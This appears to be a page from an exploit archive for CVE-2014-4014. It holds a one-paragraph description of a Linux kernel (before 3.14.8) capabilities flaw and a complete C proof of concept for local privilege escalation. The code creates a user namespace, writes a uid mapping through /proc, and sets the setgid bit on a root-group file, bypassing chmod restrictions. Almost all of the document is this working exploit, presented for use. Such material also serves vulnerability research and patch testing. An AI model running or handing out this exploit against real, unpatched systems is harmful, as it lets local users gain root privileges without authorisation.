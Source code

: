 INFO
----

The capabilities implementation in the Linux kernel before 3.14.8 does not properly consider that namespaces are inapplicable to inodes, which allows local users to bypass intended chmod restrictions by first creating a user namespace, as demonstrated by setting the setgid bit on a file with group ownership of root.

cve-2014-4014.c
---------------

    /**
     * CVE-2014-4014 Linux Kernel Local Privilege Escalation PoC
     *
     * Vitaly Nikolenko
     * vnik5287@gmail.com
     */

    #define _GNU_SOURCE
    #include <sys/wait.h>
    #include <sched.h>
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    #include <fcntl.h>
    #include <limits.h>
    #include <string.h>
    #include <assert.h>

    #define STACK_SIZE (1024 * 1024)
    static char child_stack[STACK_SIZE];

    struct args {
        int pipe_fd[2];
        char *file_path;
    };

    static int child(void *arg) {
        struct args *f_args = (struct args *)arg;
        char c;

        // close stdout
        close(f_args->pipe_fd[1]);

        assert(read(f_args->pipe_fd[0], &c, 1) == 0);

        // set the setgid bit
        chmod(f_args->file_path, S_ISGID|S_IRUSR|S_IWUSR|S_IRGRP|S_IXGRP|S_IXUSR);

        return 0;
    }

    int main(int argc, char *argv[]) {
        int fd;
        pid_t pid;
        char mapping[1024];
        char map_file[PATH_MAX];
        struct args f_args;

        assert(argc == 2);

        f_args.file_path = argv[1];
        // create a pipe for synching the child and parent
        assert(pipe(f_args.pipe_fd) != -1);

        pid = clone(child, child_stack + STACK_SIZE, CLONE_NEWUSER | SIGCHLD, &f_args);
        assert(pid != -1);

        // get the current uid outside the namespace
        snprintf(mapping, 1024, "0 %d 1\n", getuid());

        // update uid and gid maps in the child
        snprintf(map_file, PATH_MAX, "/proc/%ld/uid_map", (long) pid);
        fd = open(map_file, O_RDWR); assert(fd != -1);

        assert(write(fd, mapping, strlen(mapping)) == strlen(mapping));
        close(f_args.pipe_fd[1]);

        assert (waitpid(pid, NULL, 0) != -1);
    }